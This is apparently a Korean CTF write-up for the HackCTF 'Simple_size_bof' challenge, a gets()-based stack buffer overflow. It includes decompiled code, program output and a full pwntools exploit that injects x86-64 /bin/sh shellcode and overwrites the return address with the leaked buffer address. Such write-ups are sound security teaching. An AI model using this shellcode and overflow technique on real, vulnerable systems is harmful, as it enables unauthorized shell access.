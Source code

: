 ```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-6D30h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  puts(&s);
  printf("buf: %p\n", &v4);
  gets(&v4);
  return 0;
}
```
<strong>코드를 보면 printf 함수를 이용해서 v4의 주소를 출력하고, gets 함수를 이용해서 v4의 값을 입력하고 있는 것을 볼 수 있습니다. 이번 문제도 gets 함수로 입력을 받고, 검증 로직이 없어 BOF 취약점이 발생합니다. 그래서 쉘을 실행시켜주는 함수가 있나 확인해 보니 없었고, ROP를 하려고 보호 기법도 확인해보니 아무 것도 되어 있지 않아 그냥 쉘 코드를 박아주기로 했습니다.</strong><br>


```
pocas@pocas-VirtualBox:~/pwn/HackCTF$ ./Simple_size_bof 
삐빅- 자살방지 문제입니다.
buf: 0x7ffc7b644760

pocas@pocas-VirtualBox:~/pwn/HackCTF$ ./Simple_size_bof 
삐빅- 자살방지 문제입니다.
buf: 0x7ffc99272180

pocas@pocas-VirtualBox:~/pwn/HackCTF$ ./Simple_size_bof 
삐빅- 자살방지 문제입니다.
buf: 0x7fffcba94780

pocas@pocas-VirtualBox:~/pwn/HackCTF$ 
```
<strong>바이너리 파일을 실행해보니 buf의 주소가 계속 바뀌는 것을 알 수 있습니다. 아마 ASLR이 적용되어 있는 거 같습니다. 하지만 그냥 바이너리가 실행되는 동시에 출력되는 buf의 주소를 가져와서 사용하면 됩니다. 마찬가지로 64 비트 쉘 코드도 검색해서 구했습니다.</strong><br>

```python
from pwn import *
p = remote("ctf.j0n9hyun.xyz", 3005)

shell_code = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

p.recvline()
buf_addr = int(p.recvline()[5:], 16)
log.info("buf addr : {}".format(hex(buf_addr)))

payload = shell_code
payload += "a" * (27960 - len(shell_code)) # buf + sfp - shell_code_length
payload += p64(buf_addr)

p.send(payload)
p.interactive()
```

